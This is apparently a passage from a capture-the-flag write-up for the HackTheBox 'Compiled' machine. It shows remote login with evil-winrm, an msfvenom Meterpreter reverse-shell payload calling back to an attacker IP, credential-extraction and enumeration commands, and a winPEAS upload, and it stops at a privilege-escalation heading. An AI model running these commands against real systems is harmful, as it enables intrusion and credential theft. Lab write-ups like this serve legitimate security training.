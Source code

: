 
### Login as Emily

Evil-winrm for login as Emily :
`sudo evil-winrm -i compiled.htb -u Emily -p '12345678'`


![Image](/assets/img/post/compiled/image-8.png)

upload a payload.exe with msfvenom:

```zsh
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.45 lport=9001 -f exe -o payload.exe
```

msfconsole for exploit the payload, this is just for execute some commands  bc in evil-winrm i can't the machine is finicky.

### Reconossaince Windows

```bash
PS>

- whoami /priv
- $Credential.GetNetworkCredential().password
- net user Emily
- tasklist
- Get-Service

Upload to winPEAS.exe and execute with powershell

PS>./winPEAS.exe
```

## Privilege Escalation

#### WinPEAS.exe

![Image](/assets/img/post/compiled/image-9.png)
